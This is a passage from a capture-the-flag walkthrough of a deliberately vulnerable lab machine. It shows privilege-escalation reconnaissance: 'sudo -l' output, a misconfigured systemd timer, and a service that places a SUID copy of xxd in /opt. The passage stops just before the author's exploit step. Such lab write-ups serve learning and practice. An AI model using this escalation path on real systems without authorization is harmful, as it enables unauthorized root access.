 Because I have already tried a few different techniques to elevate my privileges from `www-data`. The first thing I type with the `comte` account is the `sudo -l` command.

```shell
comte@cheesectf:~$ sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```

As we can see, we have **full rights** (and with no password required) on a service timer called `exploit.timer`. Let’s first check the status of this service : 

```shell
comte@cheesectf:~$ systemctl status exploit.timer
● exploit.timer - Exploit Timer
     Loaded: bad-setting (Reason: Unit exploit.timer has a bad unit file setting.)
     Active: inactive (dead)
    Trigger: n/a
   Triggers: ● exploit.service
```

Apparently, the service is **inactive (dead)** because of *“bad unit file setting”* and is triggered by the `exploit.service`, hmm interesting! By looking at the settings of the service, we see that there is indeed a parameter that was forgotten :

```shell
comte@cheesectf:~$ systemctl cat exploit.timer
# /etc/systemd/system/exploit.timer
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```

```shell
comte@cheesectf:~$ cat /etc/systemd/system/exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

The `exploit.service` which is triggered by `exploit.time` is copying the **xxd** binary to the `/opt` directory and adds the **SUID bit** on it.

What’s more, we have all privileges on the modification of the `exploit.timer` file so let’s try to put up a trick :
